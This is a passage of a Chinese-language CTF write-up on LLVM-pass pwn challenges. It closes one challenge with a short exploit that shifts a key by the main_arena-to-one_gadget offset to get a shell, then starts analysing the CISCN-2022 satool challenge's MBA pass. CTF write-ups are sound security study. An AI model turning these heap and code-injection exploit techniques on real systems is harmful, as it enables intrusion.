 利用fakekey使`byte_204100`加上其距离one_gadget 的偏移，使chunk的fd为one_gadget

利用run执行one_gadget 获取shell

### exp

测试环境为`Ubuntu 18.04`，对应`GLIBC 2.27-3ubuntu1.6`版本，`exp`如下

```python
//main_arena-onegadget=-0x39c9ae
void save(char *a,char *b){}
void takeaway(){}
void stealkey(){}
void fakekey(int a){}
void run(){}
void B4ckDo0r(){
	save("","");//0
	save("","");//1
	save("","");//2
	save("","");//3
	save("","");//4
	save("","");//5
	save("","");//6
	save("","");//7
	stealkey();
	fakekey(-0x39c9ae);
	run();
}
```

![image-20230720110801641](https://cdn.jsdelivr.net/gh/chuw3i/picodemo/img/202501042352522.png)

## CISCN-2022 satool

前言：本题主要参考了[winmt](https://bbs.kanxue.com/thread-274259.htm#msg_header_h2_9) 师傅的博客，也可以说是复制了。

pass名为mba，题目没有去除符号表，重写的`runOnFunction`函数为``anonymous namespace'::MBAPass::runOnFunction`

可以看到，首先代码设置this[4] 为可读可写，经过handle函数的处理，设置其为可读可执行，然后执行this[4]处的代码，接下来就对handle函数进行分析

![image-20240108174112130](https://cdn.jsdelivr.net/gh/chuw3i/picodemo/img/202501042352523.png)

handle函数中倒序对基本块中的指令进行处理的，第一个是if判断指令的第一个操作数是否是常量，第二个if判断指令判断第一个操作数是否为函数的参数，如果都不是，则为变量，进入else 语句中

![image-20240108190814128](https://cdn.jsdelivr.net/gh/chuw3i/picodemo/img/202501042352524.png)

总结一下可以向this[4] 中写入汇编指令的函数：

- writeMovImm64：`writeMovImm64(this, 0, val)`是写入`movabs rax, val`指令，`writeMovImm64(this, 1, val)`是写入`movabs rbx, val`指令，其中`val`可以是八字节数，共十字节
  ![image-20240108192124678](https://cdn.jsdelivr.net/gh/chuw3i/picodemo/img/202501042352525.png)

- writeRet：写入`ret`指令，一字节
  ![image-20240108192641192](https://cdn.jsdelivr.net/gh/chuw3i/picodemo/img/202501042352526.png)
